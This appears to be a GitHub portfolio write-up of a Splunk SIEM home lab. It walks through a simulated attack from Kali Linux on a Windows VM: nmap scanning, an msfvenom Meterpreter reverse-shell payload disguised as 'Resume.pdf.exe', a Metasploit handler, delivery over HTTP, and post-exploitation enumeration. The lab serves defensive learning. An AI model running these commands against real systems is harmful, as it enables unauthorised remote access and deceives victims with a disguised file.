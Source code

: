 ###SIEM-Implementation-and-Log-Analysis

###Objective
This SIEM implementation lab focused on deploying and configuring a Security Information and Event Management (SIEM) solution using Splunk on a Windows virtual machine. The goal was to monitor and detect security threats by leveraging Sysmon logs, while simulating real-world cyber attacks from a Kali Linux virtual machine using Metasploit and MSFvenom. These simulations generated security events that were analyzed to improve incident response capabilities. The hands-on project provided practical experience in using Splunk Processing Language (SPL), parsing log data, and identifying attack patterns through parent-child process relationships.

###Skills Learned
. Gained advanced understanding of SIEM concepts and their real-world application.
. Demonstrated proficiency in analyzing, interpreting, and correlating network and host-based logs.
. Developed the ability to generate and identify attack signatures and behavioral patterns.
. Strengthened knowledge of network protocols and common security vulnerabilities.
. Enhanced critical thinking and problem-solving skills in cybersecurity contexts.
. Deepened understanding of the importance of filtering and prioritizing logs using EventCodes for effective threat detection.

### Tools Used
. Splunk – Deployed as the SIEM platform for log ingestion, correlation, and security event analysis.
. Kali Linux – Used for simulating attacks, including payload generation with MSFvenom and exploitation with Metasploit.
. Telemetry Generation Tools – Employed to simulate realistic network traffic and create meaningful attack scenarios.
. Windows Logging & Monitoring – Utilized Sysmon and native event logging to collect and analyze security-relevant data, with a focus on process creation events and parent-child relationships.

### Steps
1. Screenshots of Kali Linux Attack Simulation
Below are key command-line steps executed on the Kali Linux virtual machine during the simulated cyber attack targeting the Windows environment:
Nmap Port Scan
Objective: Identify open ports on the Windows target.
Command: nmap -sS -T4 -Pn <target-ip>
Result: Discovered open TCP port 3389 (RDP) indicating a potential remote access point.
![image alt](https://github.com/waqar172/Portfolio/blob/master/01.PNG?raw=true)

2. MSFvenom Payload Generation
Objective: Create a malicious executable to simulate initial access.
Command: msfvenom -p windows/meterpreter/reverse_tcp LHOST=<kali-ip> LPORT=4444 -f exe -o Resume.pdf.exe
Output: Generated a reverse shell payload disguised as a PDF file.
![image alt](https://github.com/waqar172/Portfolio/blob/master/02.PNG?raw=true)

3. Metasploit Exploit Setup
Objective: Configure the Metasploit listener to handle the reverse shell.
Commands: msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <kali-ip>
set LPORT 4444
run
![image alt](https://github.com/waqar172/Portfolio/blob/master/03.PNG?raw=true)

4. Python HTTP Server for Payload Delivery
Objective: Serve the malicious file to the Windows victim machine over HTTP.
Command: python3 -m http.server 9999
![image alt](https://github.com/waqar172/Portfolio/blob/master/04.PNG?raw=true)

5. HTTP Server Webpage Hosting the Payload
Objective: Deliver the malicious executable (Resume.pdf.exe) to the target Windows machine. The file is hosted via a simple Python HTTP server on port 9999.
Command used to start the server: python3 -m http.server 9999
Description:
The screenshot displays the HTTP server’s web interface as seen from a browser, listing the malicious payload (Resume.pdf.exe) and confirming it is accessible for download by the Windows target.
![image alt](https://github.com/waqar172/Portfolio/blob/a5ef6741f46824fddb30c88ba53411f5f909d237/05.PNG)

6. Evidence of Reverse Shell Connection on Windows Target
Objective: Confirm that the malicious payload (Resume.pdf.exe) executed successfully and established a reverse TCP connection from the Windows machine to the Kali Linux attacker's machine.
Screenshot 1: Established Connection via netstat
Command Run: netstat -anob
Description:
This screenshot captures the Windows command prompt output showing an active TCP connection from the Windows machine to the Kali Linux attacker's IP on port 4444. The connection is linked to PID 3588, indicating the process responsible for the communication.
![image alt](https://github.com/waqar172/Portfolio/blob/a5ef6741f46824fddb30c88ba53411f5f909d237/06.PNG)
![image alt](https://github.com/waqar172/Portfolio/blob/a5ef6741f46824fddb30c88ba53411f5f909d237/07.PNG)

Screenshot 2: Process Linked to Payload in Task Manager
Description:
This screenshot displays the Services tab in Task Manager, verifying that PID 3588 belongs to the malicious file Resume.pdf.exe. This confirms that the payload generated via MSFvenom is actively running and responsible for the established reverse shell connection.
![image alt](https://github.com/waqar172/Portfolio/blob/a5ef6741f46824fddb30c88ba53411f5f909d237/08.PNG)
![image alt](https://github.com/waqar172/Portfolio/blob/a5ef6741f46824fddb30c88ba53411f5f909d237/09.PNG)

7. Meterpreter Session Established from Kali Linux
Objective: Confirm that the Metasploit handler successfully received a reverse TCP connection from the Windows target.
Screenshot 1: Metasploit Reverse Shell Connection
Description:
This screenshot captures the Metasploit console after executing the exploit command. The terminal output shows that the handler began listening on the specified local port and successfully received a reverse TCP connection, initiating Meterpreter session 4. The connection is from the Windows target IP back to the Kali Linux attack machine.
Screenshot
![image alt](https://github.com/waqar172/Portfolio/blob/a5ef6741f46824fddb30c88ba53411f5f909d237/10.PNG)

8. Post-Exploitation Commands Executed via Meterpreter
Objective: Simulate initial attacker enumeration activities following successful compromise.
Screenshot 2: Post-Exploitation Enumeration via shell
Description:
After invoking the shell command within the Meterpreter session, the Windows Command Prompt (cmd.exe) was accessed. Several commands were executed to gather system and user information:
net user – Lists user accounts on the system.
net localgroup – Displays local user groups.
ipconfig – Shows network interface configurations and IP address assignments.
Screenshot


